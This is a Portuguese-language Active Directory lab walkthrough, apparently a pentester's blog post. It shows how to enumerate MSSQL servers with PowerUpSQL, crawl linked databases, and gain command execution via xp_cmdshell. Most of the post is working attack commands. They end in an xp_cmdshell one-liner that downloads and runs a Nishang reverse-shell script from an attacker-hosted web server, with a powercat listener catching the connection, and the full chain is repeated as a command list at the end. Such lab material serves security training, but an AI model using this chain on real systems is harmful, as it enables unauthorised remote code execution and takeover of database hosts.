 ```yaml
---
title: "Active Directory - Enumeração MSSQL"
tags: [Windows, Active Directory]
categories: "Active Directory"
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/mssql-server.png)

# Considerações Iniciais

Agora vamos iniciar a enumeração do MSSQL Server desse AD, todo AD vai ter um servidor SQL, uma vez que é onde são guardados os dados.

A ferramenta que utilizarei para essa seção é o PowerUpSql.ps1, um script escrito em PowerShell que possibilita a enumeração rápida e precisa do servidor SQL de um AD.

LEIAM O POST DE REFERÊNCIA, MUITO IMPORTANTE PARA A COMPREENSÃO DO QUE SERÁ EXECUTADO AQUI

*Referência:*

[Link 1](https://blog.netspi.com/powerupsql-powershell-toolkit-attacking-sql-server/)

# Enumeração de Servidores SQL

A ideia inicial aqui é termos qualquer tipo de acesso, mesmo que publico ao banco de dados do SQL, tendo esse acesso podemos escalar privilégios dentro dele e virar SA (sysadmin) dentro dele, podendo por exemplo habilitar o xp_cmdshell e executar comandos cmd dentro da máquina do SQL e conseguir assim um reverse shell!

Vamos lá

## Listando SPN

Ferramenta utilizada PowerUpSql.ps1

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.ps1)

Listando todos os SQL do Laboratório que estão com SPN (Service Principal Name) habilitados

`Get-SQLInstanceDomain`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql.png)

Temos um total de 5 instância de SQL sendo executadas nesse laboratório.

## Verificando Conectividade com o servidor

Agora devemos verificar se algum deles é acessível, e sendo acessível podemos logar com algum usuário

`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql1.png)

Verificamos que temos uma Acessível! Então podemos testar comandos através da chain dela agora

## Testando a chain

Para ver se temos algum tipo de execução de comando dentro do servidor sql temos que testar a chain dele, e ver se em algum desses pontos temos execução de comandos

`Get-SQLServerLinkCrawl -Instance Instancia_acessível`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql2.png)

Verificamos que ele faz uma chain em vários pontos, então é bem provável que teremos algum tipo de RCE em alguma parte dessa chain

## Executando Comandos

`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'whoami'" | ft`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql3.png)

Show! Temos RCE dentro dessa máquina!

## Ganhando um Reverse Shell

Agora vamos pegar um reverse shell nela!

Iremos utilizar o `Invoke-PowerShellTCP.ps1` do Nishang

[PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

O `HFS` para hospedar nosso servidor web onde o servidor remoto irá fazer as requisições

[HFS](https://www.rejetto.com/hfs/)

E o `powercat` para receber a conexão reversa

[PowerCat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

Setamos o powercat na porta 443 para receber a conexão reversa

`powercat -l -v -p 443 -t 1000`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev.png)

Arrumamos (colocamos a chamada da função no final dela pra automaticamente executar o reverse shell) e upamos o Invoke-PowerShellTCP.ps1 no HFS

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev1.png)

Agora chamamos no crawl nosso reverse shell

`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1'')'" | ft`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev2.png)

Recebemos a conexão reversa da máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev3.png)

# Conclusão

Pronto! Conseguimos um reverse shell através de um database link dentro do MSSQL

## Comandos Utilizados

`Get-SQLInstanceDomain`
`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'whoami'" | ft`
`powercat -l -v -p 443 -t 1000`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1'')'" | ft`